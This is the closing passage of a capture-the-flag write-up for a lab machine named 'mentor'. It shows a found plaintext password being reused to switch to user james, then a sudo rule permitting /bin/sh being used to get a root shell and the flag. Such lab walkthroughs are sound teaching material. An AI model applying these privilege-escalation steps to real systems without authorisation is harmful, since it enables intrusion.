 Cool, we've discovered a plaintext password.

We can't use this for root, but we can use it to `su james`:

```
svc@mentor:/tmp$ su root 
Password: 
su: Authentication failure
svc@mentor:/tmp$ su james
Password: 
james@mentor:/tmp$ whoami
james
```

Running `sudo -l` to see what user james can run with elevated permissions we find:

```
james@mentor:/tmp$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh
```

Nice. Lets run:

```
james@mentor:/tmp$ sudo /bin/sh
# whoami
root
# hostname
mentor
```

We can now grab the final flag:

![mentor_root_flag.png](../assets/mentor_assets/mentor_root_flag.png)

Thanks for following along!

-Ryan

------------------------------------------------------------

